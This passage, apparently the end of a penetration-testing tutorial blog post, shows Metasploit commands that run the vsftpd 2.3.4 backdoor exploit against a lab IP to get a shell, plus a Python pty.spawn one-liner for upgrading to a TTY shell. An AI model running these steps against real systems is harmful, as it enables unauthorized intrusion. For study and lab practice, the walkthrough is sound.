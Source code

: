 Set options

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.158
RHOST => 10.10.10.158
```
Port is already set to 21.

Simple use run/exploit command

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

And it will execute and if successful give you meterpreter shell

In condition to get proper target shell use 'shell' command in meterpreter.

And suppose if you dont have proper tty shell you can use python one liner to get TTY shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```




## Conclusion

**_In this blogpost we have learnt some basic approaches to exploit target, you can use some of these approaches in windows target also, like lower hanging fruit._**













































